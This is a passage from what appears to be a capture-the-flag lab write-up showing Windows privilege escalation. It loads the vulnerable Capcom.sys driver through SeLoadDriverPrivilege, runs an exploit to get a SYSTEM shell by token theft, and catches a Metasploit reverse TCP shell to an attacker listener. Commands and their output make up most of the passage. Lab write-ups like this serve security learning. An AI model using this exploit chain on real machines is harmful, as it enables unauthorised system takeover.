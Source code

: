 ```text
*Evil-WinRM* PS C:\temp> ./EOPLOADDRIVER.exe System\CurrentControlSet\printer C:\test\Capcom.sys
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-2633719317-1471316042-3957863514-1104\System\CurrentControlSet\printer
NTSTATUS: c000010e, WinError: 0

*Evil-WinRM* PS C:\test> ./ExploitCapcom.exe
[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000080
[*] Shellcode was placed at 0000020616710008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
[*] Press any key to exit this program
```

I realized after compiling my exploits that I had accidentally written `C:\temp` in one file, and `C:\test` in the other. Luckily my user had permission to create these folders on the machine so it didn't turn out to be too much of an issue.  Next, I ran `EOPLOADDRIVER.exe` to create the registry key pointing to the malicious `capcom.sys` driver, then ran `ExploitCapcom.exe` to exploit this malicious driver to grant me a System shell.

### Root.txt

After getting a System shell over netcat I once again uploaded my `print.exe` meterpreter reverse shell, and created a handler to catch it.  For some reason meterpreter failed to load despite the handler getting a call back, so I recompiled my exploit to use the standard Windows TCP reverse shell `windows/x64/shell_reverse_tcp`instead.  

```text
msf5 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/x64/shell_reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.15.74      yes       The listen address (an interface may be specified)
   LPORT     55541            yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.15.74:55541 
[*] Command shell session 5 opened (10.10.15.74:55541 -> 10.10.10.193:64733) at 2020-09-26 17:26:09 -0400

C:\temp>whoami /all
whoami /all

USER INFORMATION
```